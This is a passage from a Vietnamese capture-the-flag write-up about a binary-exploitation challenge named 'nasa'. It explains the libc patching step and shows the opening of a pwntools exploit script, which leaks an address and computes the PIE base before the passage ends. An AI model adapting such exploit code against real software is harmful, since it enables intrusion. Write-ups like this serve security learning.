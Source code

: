 Nhưng bài này lại khacs hơn so với các bài khác là bài này cần phải build  docker để có thể lấy libc từ trong docker patch vào file thì mới chạy được, chứ nếu chạy bình thường sẽ không chạy được. 

Sau khi build docker và lấy libc.so.6 từ trong dockerfile ra, ta sẽ tiến hành viết exploit cho bài này 
```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import sys
from subprocess import check_output
from time import sleep

context.binary = ELF('./nasa_patched', checksec=False)
exe = context.binary
libc = ELF('./libc.so.6', checksec=False)
context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]

gdbscript = '''
init-pwndbg
# b* 0x1533
# b* 0x1655
b* 0x1705
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], ssl=True)
    elif args.DOCKER:
        p = remote("localhost", 1337)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "./nasa"]))
        gdb.attach(int(pid), gdbscript=gdbscript + f"\nset sysroot /proc/{pid}/root\nfile /proc/{pid}/exe")
        pause()
        return p
    elif args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe.path] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe.path] + argv)
    else:
        return process([exe.path] + argv, aslr=False)

def slog(name, addr):  # log nicely
    log.success(f'{name}: {hex(addr)}')

# =============== EXPLOIT =====================
p = start()

def rl():
    return p.recvline().strip()

def sla(delim, data):
    p.sendlineafter(delim, data)


leak = int(rl(), 16)
pie_base = int(rl(), 16) - exe.sym.win
exe.address = pie_base
```